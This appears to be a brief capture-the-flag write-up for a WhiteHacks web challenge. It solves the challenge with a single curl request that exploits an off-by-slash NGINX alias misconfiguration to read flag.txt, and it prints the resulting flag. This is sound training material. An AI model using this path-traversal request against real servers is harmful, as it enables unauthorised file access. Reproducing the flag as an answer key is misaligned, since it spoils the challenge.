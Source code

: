 # Offfully
Web

## Challenge 

DESCRIPTION
We provided the configuration file below. Can you access flag.txt?

Visit the challenge at http://chals.whitehacks.ctf.sg:13000/

Author: gladiator


ATTACHED FILES
default


## Solution

https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/

Path traversal via misconfigured NGINX alias


	$ curl http://chals.whitehacks.ctf.sg:13000/images../flag.txt
	WH2020{0FF_BY_TW0_D0Ts_AND_A_SLASH}
